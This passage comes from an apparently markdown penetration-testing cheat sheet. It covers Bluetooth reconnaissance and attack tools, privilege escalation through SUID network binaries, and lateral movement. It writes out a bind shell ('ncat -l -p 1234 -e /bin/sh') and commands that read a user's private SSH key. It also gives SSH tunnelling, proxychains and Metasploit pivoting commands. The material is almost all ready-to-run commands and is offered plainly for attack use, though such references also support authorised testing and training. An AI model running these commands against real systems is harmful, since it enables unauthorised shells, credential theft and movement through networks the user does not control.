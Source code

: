 ### Bluetooth

```bash
# Bluetooth scanning
hcitool scan
bluetoothctl scan on

# Device information
hciconfig -a
bluetoothctl info XX:XX:XX:XX:XX:XX

# Bluetooth attacks
btscanner
bluelog
redfang
```

## Privilege Escalation via Network

### Network-based Privilege Escalation

```bash
# Check for SUID network binaries
find / -perm -u=s -type f 2>/dev/null | grep -E "(nc|ncat|socat|ssh)"

# Abuse SUID binaries
# If /usr/bin/ncat has SUID bit
ncat -l -p 1234 -e /bin/sh

# SSH key abuse
cat ~/.ssh/id_rsa
ssh-keygen -y -f ~/.ssh/id_rsa

# Network service exploitation
# Check for vulnerable services
netstat -tulpn | grep LISTEN
ss -tulpn | grep LISTEN
```

### Lateral Movement

```bash
# SSH tunneling
ssh -L 8080:localhost:80 user@remote
ssh -R 8080:localhost:22 user@remote
ssh -D 8080 user@remote

# ProxyChains
proxychains nmap -sT 10.0.0.1
proxychains firefox

# Pivoting with Metasploit
# meterpreter> run autoroute -s 10.0.0.0/24
# meterpreter> portfwd add -l 8080 -p 80 -r 10.0.0.1
```
